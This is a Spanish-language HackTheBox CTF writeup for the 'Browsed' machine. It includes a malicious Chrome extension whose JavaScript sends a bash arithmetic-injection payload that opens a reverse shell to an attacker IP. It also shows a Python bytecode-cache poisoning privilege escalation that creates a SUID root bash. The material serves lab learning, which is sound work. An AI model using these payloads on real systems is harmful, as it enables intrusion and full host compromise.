



+++
title = "HackTheBox - Browsed"
draft = false
description = "Resolución de la máquina Browsed"
summary = "OS: Linux | Dificultad: Medium | Conceptos: Chrome Extensions, Bash Injection, Python Cache Poisoning"
tags = ["HTB", "Linux", "Medium", "Bash Injection", "Python Cache Poisoning"]
categories = ["Writeups"]
showToc = true
date = "2026-02-18T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `8h`
* **Datos Iniciales**: `10.129.5.12`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
|_  256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Browsed
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* `TCP/22`: SSH, versión potencialmente vulnerable.
  * [CVE-2024-6387](https://nvd.nist.gov/vuln/detail/cve-2024-6387): [RegreSSHion](https://www.offsec.com/blog/regresshion-exploit-cve-2024-6387/) -> **Unauthenticated RCE**. Complejo de explotar, puede requerir un tiempo largo.
  * [CVE-2023-51385](https://nvd.nist.gov/vuln/detail/cve-2023-51385): Command Injection
* `TCP/80`: nginx/1.24.0, versión estable y con vulnerabilidades no relevantes (corrupción de memoria, DDoS, crasheos...)

## Puerto 80

### Enumeración

Al entrar, nos encontramos una página que ofrece varias extensiones de navegador.



Aunque no se nos haya redirigido a ningún vhost en función del dominio, como es normal en algunas máquinas, dado que arriba a la izquierda aparece el dominio `browsed.htb` lo añado a `/etc/hosts` y analizo subdominios, aunque pasado un rato no se encuentra nada:

```bash
gobuster vhost --url http://browsed.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://browsed.htb
[+] Method:                    GET
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] User Agent:                gobuster/3.8.2
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
# Vacío
```

Buscamos directorios:

```bash
$ gobuster dir -u http://browsed.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://browsed.htb
[+] Method:                  GET
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 178] [--> http://browsed.htb/images/]
assets               (Status: 301) [Size: 178] [--> http://browsed.htb/assets/]
```

Como no parece haber mucho relevante, antes de ponernos a mirar dentro de `assets`, miro a qué podemos acceder desde la página principal, y qué podemos deducir de ello:

* No hay `robots.txt`
* El botón `Upload Extension` apunta a `upload.php`
  * Podríamos intentar subir un php malicioso que nos dé un reverse shell
  * Podríamos buscar más archivos php en el directorio
* En `browsed.htb/samples` vemos 3 extensiones que podemos descargar, cuyos botones de descarga apuntan a archivos `.zip`, quizás valga la pena buscar más zips.

Tras otro análisis con `gobuster`, no encontramos nada nuevo, así que nos centramos en la posibilidad de **subir archivos .zip con extensiones de navegador.**

### Subida de archivos .zip

Si probamos, antes de intentar crear una extensión maliciosa, a descargar y subir uno de los `.zip` que ofrecen, p.ej el de `fontify.zip`:



Si miramos detalladamente el log del error, encontraremos datos relevantes:

```log
...
browsedinternals.htb/assets/css/index.css?v=1.24.5
[2109:2126:0217/184915.527985:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://browsedinternals.htb/assets/css/theme-gitea-auto.css?v=1.24.5
[2109:2126:0217/184915.530912:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://browsedinternals.htb/assets/img/logo.svg
[2079:2079:0217/184915.534599:ERROR:object_proxy.cc(576)] Failed to call method: org.freedesktop.DBus.NameHasOwner: object_path= /org/freedesktop/DBus: unknown error type: 
[2079:2079:0217/184915.534773:VERBOSE1:idle_linux.cc(129)] org.mate.ScreenSaver D-Bus service does not exist
...
[2079:2090:0217/184915.534922:ERROR:bus.cc(408)] Failed to connect to the bus: Could not parse server address: Unknown address type (examples of valid types are "tcp" and on UNIX "unix")
[2109:2126:0217/184915.539124:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://localhost/assets/css/main.css
[2109:2126:0217/184915.539488:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://localhost/images/pic01.jpg
```

Entre todo este texto, destacan:

* `http://localhost/images/pic01.jpg`: Posiblemente haya un servidor web en escucha en localhost en el servidor
* `http://browsedinternals.htb/assets/css/theme-gitea-auto.css?v=1.24.5`: Un dominio nuevo, `browsedinternals.htb`, que posiblemente esté usando Gitea.
* Añadimos `browsedinternals.htb` a `/etc/hosts`

## BrowsedInternals - Gitea

Entramos y, como esperábamos, encontramos una instancia de Gitea. Si vamos a Explore, encontramos un repo `MarkdownPreview` de `larry`.

* Apuntamos posible username del SO: `larry`
* Entramos a su repo.

En el repo, encontramos varios archivos:&#x20;



Hay 2 commits, pero no cambian en nada relevante, así que nos clonamos el actual y miramos qué hay.

```bash
$ git clone http://browsedinternals.htb/larry/MarkdownPreview.git && cd MarkdownPreview
Cloning into 'MarkdownPreview'...

$ tree
.
├── app.py
├── backups
│   ├── data_backup_20250317_121551.tar.gz
│   └── data_backup_20250317_123946.tar.gz
├── files
│   └── cf23093c09e7478382e716e31d06b3ef.html
├── log
│   ├── routine.log
│   └── routine.log.gz
├── README.md
└── routines.sh
```

Vamos mirando los archivos de uno en uno.

### backups, log, files

En backups vemos dos archivos `.tar.gz`:

```bash
$ ls
data_backup_20250317_121551.tar.gz  data_backup_20250317_123946.tar.gz
```

Si los descomprimimos veremos que no hay nada, ni archivos ocultos que puedan servir de algo.

En files hay un archivo `cf23093c09e7478382e716e31d06b3ef.html` que contiene:

```html
<p>a
zz</p>
```

`hashid` detecta el nombre del archivo (sin el `.html`) como un posible hash (MD2,MD5,MD4...), posiblemente no sea nada. CrackStation no consigue crackearlo, si es que significa algo.

En log hay un archivo `routine.log` y uno `routing.log.gz`, ninguno de los dos contiene nada relevate.

### routines.sh

Encontramos varias variables de entorno que confirman la existencia de un usuario `larry`:

```bash
#!/bin/bash

ROUTINE_LOG="/home/larry/markdownPreview/log/routine.log"
BACKUP_DIR="/home/larry/markdownPreview/backups"
...
```

Según el propio `larry`, el programa, al ejecutarlo, se encarga de una de las siguientes en función de `$1`:

* Limpiar archivos temporales en `/home/larry/markdownPreview/tmp`
* Hacer un backup de los datos de `/home/larry/markdownPreview/data` en un `.tar.gz` ubicado en `/home/larry/markdownPreview/backups`
* Rotar los logs de `/home/larry/markdownPreview/tmp`
* Guardar la info del sistema en `/home/larry/markdownPreview/backups`
* Si el parámetro `$1` no está entre 0 y 3 (o no es un número), guarda `$1` en `$ROUTINE_LOG`

La elección se hace en función de la siguiente comparación:

```bash
...
if [[ "$1" -eq 0 ]]; then... # Routine 0: Clean temp files
if [[ "$1" -eq 1 ]]; then... # Routine 1: Backup data
if [[ "$1" -eq 2 ]]; then... # Routine 2: Rotate logs
if [[ "$1" -eq 3 ]]; then... # Routine 3: System info dump
else...
```

Hay un punto importante, si el primer valor (`$1`) pasado a `routines.sh` no es 0, 1, 2 o 3 (`else...`), el script hará lo siguiente:

```bash
echo "[$(date '+%Y-%m-%d %H:%M:%S')] $1" >> "$ROUTINE_LOG"
```

Sin ningún tipo de filtro, `routines.sh` meterá a `/home/larry/markdownPreview/log/routine.log` nuestro argumento, así que, si conseguimos una forma de pasarle un argumento arbitrario, podríamos conseguir crear un archivo potencialmente peligroso.

### app.py

Aplicación de Flask con varios endpoints, entre ellos, el más relevante es `/routines/<rid>`:

```bash
@app.route('/routines/<rid>')
def routines(rid):
    # Call the script that manages the routines
    # Run bash script with the input as an argument (NO shell)
    subprocess.run(["./routines.sh", rid])
    return "Routine executed !"
```

El endpoint toma `<rid>` y se lo pasa a `routines.sh` como argumento, aquí volvemos a la función anterior. El `$1` de `routines.sh` es el `<rid>` que nosotros elegimos, así que tenemos cierto control sobre `/home/larry/markdownPreview/log/routine.log`.

Al final del archivo vemos:

```bash
# The webapp should only be accessible through localhost
if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

Podemos estar casi seguros de que el servicio en localhost:5000 que hemos visto en los logs corresponde a este `app.py`.

## Intento de exploit y explicación

Una vez que conocemos cómo funciona la app de localhost, planeo lo siguiente:

* Las extensiones que sube el usuario se ejecutan en el navegador del servidor
* Podemos hacer que una extensión visite `http://127.0.0.1:5000/routines/<X>`, lo que hará que `<X>` se añada a `home/larry/markdownPreview/log/routine.log`
* Si de algún modo conseguimos que un html de una extensión acceda a ese archivo, podríamos llegar a conseguir un XSS. Problema: no sirve de mucho, y tampoco podemos hacerlo, porque incluso subiendo un `.zip` con un html falso que sea un soft link y apunte a `/.../routine.log`, al descomprimirlo la página parece limpiar el link, o al menos no vemos su output en el log.

### Arithmetic Expression Injection - Explicación

Pasado un rato largo buscando soluciones, miro qué más puede llegar a ser vulnerable en el script, y tras un rato, encuentro que es posible realizar una [_Arithmetic Expression Injection_](https://dev.to/greymd/eq-can-be-critically-vulnerable-338m), que consiste en lo siguiente:

En cualquiera de las comprobaciones de `routines.sh` se realiza esto:

```bash
if [[ "$1" -eq 0 ]]; then... # O -eq 1, 2, 3...
```

Bash, por dentro, tiene un evaluador aritmético que se activa en estructuras como `((...))`, `$((...))`, `let ...` u otras. P.ej `((x = 2 + 3))` se evalúa automáticamente y hace que x tenga el valor 5, **también funciona con comandos**. En la estructura `[[...]]`, todo esto por defecto no pasa.

Lo que hace vulnerable al script es que, cuando se usa `-eq`, bash no compara strings, interpreta ambos operandos como expresiones aritméticas, aunque estén entre `[[...]]`. Esto hace que se pueda pasar como `$1` un array cuyo índice ha de calcularse, p.ej:

* `array[$(<Comando de Reverse Shell>)]` Bash detectará `array[...]`, tendrá que evaluar el índice, verá que contiene `$(...)`, lo procesará y ejecutará, y luego intentará usar el resultado como índice, pero el daño ya estará hecho.

## Arithmetic Expression Injection - Explotación

Ahora que conocemos la vulnerabilidad de la app, necesitamos crear una extensión de navegador que acceda a `http://localhost:5000/routines/arr[$(bash -i >& /dev/tcp/10.10.14.12/4444 0>&1)]` mientras escuchamos en el puerto.

Hacemos una extensión simple con 3 archivos, sacando la base de Internet y modificándola:

`manifest.json` tiene la siguiente forma:

```manifest.json
{
  "manifest_version": 3,
  "name": "Extension completamente segura",
  "version": "1.0",
  "permissions": ["tabs", "webRequest", "webRequestBlocking"],
  "host_permissions": ["<all_urls>"],
  "background": {
    "service_worker": "background.js"
  },
  "permissions": ["tabs", "webRequest", "webRequestBlocking"],
  "host_permissions": ["<all_urls>"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"],
      "run_at": "document_start"
    }
  ]
}
```

`content.js` y `background.js` tienen exactamente el mismo código (por si falla uno):

```content.js
const TARGET_BASE = 'http://127.0.0.1:5000/routines/';
const ATTACKER_IP = "10.10.14.12";
const ATTACKER_PORT = "4444";

const REV_SHELL = `bash -c 'bash -i >& /dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT} 0>&1'`;
const B64_PAYLOAD = btoa(REV_SHELL);
const BASH_INJECTION = `arr[$(echo ${B64_PAYLOAD} | base64 -d | bash)]`;

const FINAL_URL = TARGET_BASE + encodeURIComponent(BASH_INJECTION);

fetch(FINAL_URL, { method: 'GET', mode: 'no-cors', cache: 'no-cache'});
```

Los comprimimos y subimos el zip mientras escuchamos en el puerto 4444:

```bash
$ penelope -i 10.10.14.12                             
[+] Listening for reverse shells on 10.10.14.12:4444 
➤ Main Menu (m) Payloads (p) Clear (Ctrl-L) Quit (q/Ctrl-C)
[+] Got reverse shell from browsed~10.129.5.12-Linux-x86_64 Assigned SessionID <1>
[+] Got reverse shell from browsed~10.129.5.12-Linux-x86_64 Assigned SessionID <2>
[+] Got reverse shell from browsed~10.129.5.12-Linux-x86_64 Assigned SessionID <3>
# Vemos que, como content.js y background.js hacían lo mismo, han llegado incluso varios revshell.

larry@browsed:~/markdownPreview$ 
```

## Privesc

Lo primero que vemos en el directorio `.ssh` de larry al entrar es una clave pivada `id_ed25519`, la descargamos para poder acceder por ssh más adelante.

Ejecutamos `sudo -l` y vemos que larry puede ejecutar como root lo siguiente:

```bash
$ sudo -l
Matching Defaults entries for larry on browsed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User larry may run the following commands on browsed:
    (root) NOPASSWD: /opt/extensiontool/extension_tool.py
```

Antes de ir a por el script, ejecutamos LinPEAS. Destacan varias cosas:

* `Sudo version 1.9.15p5`: CVE-2025-32463 - Chroot-to-Root. Tras probar con un exploit, no parece funcionar (necesitamos credenciales de larryy)
* Puertos locales abiertos:

```bash
tcp   LISTEN 0      4096       127.0.0.1:3000       #browsedinternals.htb
tcp   LISTEN 0      128        127.0.0.1:5000       #app.py
tcp   LISTEN 0      70         127.0.0.1:33060      #MySQL?
tcp   LISTEN 0      151        127.0.0.1:3306       #MySQL?
```

* Checking if PAM loads `pam_cap.so`:
  * `/etc/pam.d/common-auth:25:auth optional pam_cap.so`

Tras mirar en los puertos de MySQL sin éxito, al no tener contraseña, vamos a por el script de python que podemos ejecutar con sudo.

Se trata de un programa encargado de:

* Cambiar la versión de una extensión -> No vulnerable
* Comprimir en un .zip archivos de un directorio fuente -> No vulnerable
* Limpiar archivos temporales -> No vulnerable

Como no veo nada vulnerable, miramos el directorio del script por si hay algo relevante. No podemos hacer [Library Hijacking](../tecnicas/python-library-hijacking.md) porque no tenemos privilegios de escritura en el directorio del script:

```bash
$ ls -al /opt
total 16
drwxr-xr-x  4 root root 4096 Aug 17  2025 .
drwxr-xr-x 23 root root 4096 Jan  6 10:28 ..
drwxrwxr-x  9 root root 4096 Mar 23  2025 chrome-linux64
drwxr-xr-x  5 root root 4096 Feb 18 21:47 extensiontool
```

Pero si nos fijamos, dentro del directorio `extensiontool` tenemos permisos de escritura para la carpeta `__pycache__`:

```bash
$ ls -al /opt/extensiontool
total 28
drwxr-xr-x 5 root root 4096 Feb 18 21:47 .
drwxr-xr-x 4 root root 4096 Aug 17  2025 ..
drwxrwxr-x 5 root root 4096 Mar 23  2025 extensions
-rwxrwxr-x 1 root root 2739 Mar 27  2025 extension_tool.py
-rw-rw-r-- 1 root root 1245 Mar 23  2025 extension_utils.py
drwxrwxrwx 2 root root 4096 Feb 18 22:00 __pycache__
drwxr-xr-x 2 root root 4096 Feb 18 21:47 temp
```

Tras buscar qué nos permite este permiso de escritura, veo que es posible realizar un ataque de **python cache poisoning**. Sabemos que la versión de python usada es la 3.12 (aparece en el shebang del script), así que primero creamos un exploit y lo compilamos a bytecode de python:

```bash

larry@browsed:/tmp$ cat exploit.py 
import os
os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")

larry@browsed:/tmp$ python3.12 -m py_compile exploit.py 
```

Miramos qué librerías usa el programa `extension_tool.py`:

```extension_tool.py
#!/usr/bin/python3.12
import json
import os
from argparse import ArgumentParser
from extension_utils import validate_manifest, clean_temp_files
import zipfile

EXTENSION_DIR = '/opt/extensiontool/extensions/'
...
```

Aquí destaca `extension_utils`, que proviene exactamente del archivo `extension_utils.py` del mismo directorio, una librería custom. Cuando python inicie el programa, hará lo siguiente:

1. Al llegar a `from extension_utils...`, buscará `extension_utils.py` en el mismo directorio (por el orden de carga por defecto de python).
2. Mirará si existe una versión precompilada en `__pycache__`
3. Si el `.pyc` existe, comparará la cabecera del `.pyc` con los metadatos del `.py` real.
4. Si coinciden, ejecutará el `.pyc` directamente.

Así que primero compilamos un `.pyc` original para tener una cabecera "buena":

```bash
larry@browsed:/opt/extensiontool$ python3.12 -m py_compile extension_utils.py 
larry@browsed:/opt/extensiontool$ ls __pycache__/
extension_utils.cpython-312.pyc
```

Ahora usamos el siguiente script sacado de [aquí](https://hardsoftsecurity.es/index.php/2026/01/19/python-cache-poisoning-privesc-linux/) que inyecta el bytecode malicioso en el de la librería, preservando las cabeceras:

```bash
larry@browsed:/tmp$ cat poison.py 
# poison.py
path_to_real_py = "/opt/extensiontool/extension_utils.py"
path_to_my_pyc = "/tmp/__pycache__/exploit.cpython-312.pyc"
target_pyc = "/opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc"

import os
import struct
...
```

Y lo ejecutamos:

```bash
larry@browsed:/tmp$ python3.12 poison.py 
[+] Malicious PYC poisoned with correct metadata!
```

Ahora ejecutamos el programa con sudo:

```bash
larry@browsed:/opt/extensiontool$ sudo /opt/extensiontool/extension_tool.py 
Traceback (most recent call last):
  File "/opt/extensiontool/extension_tool.py", line 5, in <module>
    from extension_utils import validate_manifest, clean_temp_files
ImportError: cannot import name 'validate_manifest' from 'extension_utils' (/opt/extensiontool/extension_utils.py)
```

Miramos `/tmp`:

```bash
larry@browsed:/tmp$ ls -al
total 1496
-rw-rw-r--  1 larry larry      76 Feb 18 22:53 exploit.py
-rw-rw-r--  1 larry larry     965 Feb 18 23:40 poison.py
drwxrwxr-x  2 larry larry    4096 Feb 18 23:25 __pycache__
-rwsr-sr-x  1 root  root  1446024 Feb 18 23:43 rootbash
...
```

Ejecutamos nuestro nuevo binario de bash con `-p`

> [!Tip]+ Dato realmente interesante
> _Desde hace años, el binario de bash está programado para detectar automáticamente si se está ejecutando con el bit SUID activado por un usuario distinto al dueño. Al ver que usuario y dueño no son el mismo, asume que es un riesgo de seguridad y rebaja sus privilegios. `-p` le hace no rebajarlos._

```bash
larry@browsed:/tmp$ ./rootbash -p
rootbash-5.2$ whoami
root
```

Y tenemos root.
